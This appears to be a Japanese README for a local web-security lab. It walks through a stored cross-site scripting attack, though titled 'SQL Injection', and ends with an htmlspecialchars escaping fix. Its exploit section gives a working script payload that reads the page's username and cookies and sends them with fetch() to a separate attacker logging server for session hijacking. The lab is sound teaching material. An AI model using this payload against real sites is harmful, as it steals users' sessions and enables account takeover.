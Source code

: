 # SQL Injection

# Environment

Debian 11

# Get Started

1つのターミナル上で対象サーバーを建てる

```bash
bash init.sh
php -S localhost:3000
```

別のターミナル上で攻撃用サーバーを建てる

```bash
php -S localhost:3001
```


# Exploit

1. user01でログイン

ブラウザでlocalhost:3000/login.phpにアクセスする

user01としてログインする (`user01` / `user01`)

2. コードを挿入

次のようなコードを投稿する

```javascript
Hello
<script>
var url = 'http://localhost:3001/logger.php';
var user = encodeURIComponent(document.querySelector('#username').innerText);
var cookie = encodeURIComponent(document.cookie);
fetch(`${url}?user=${user}&cookie=${cookie}`, { mode: "no-cors" })
</script>
```

3. 疎通確認
localhost:3000/index.php に再度アクセスすると localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

4. user02でログインする (`user02` / `user02`)

5. ログ確認
localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

cookieが手に入ったのでuser01になりすましてログインできる

# Fix

出力時に適切にエスケープする

修正前)

```php
<?php
<p><?= $post['message'] ?> - by `<?= $username ?>`</p>
```

修正後)

```php
<?php
<p><?= htmlspecialchars($post['message']) ?> - by `<?= htmlspecialchars($username) ?>`</p>
```

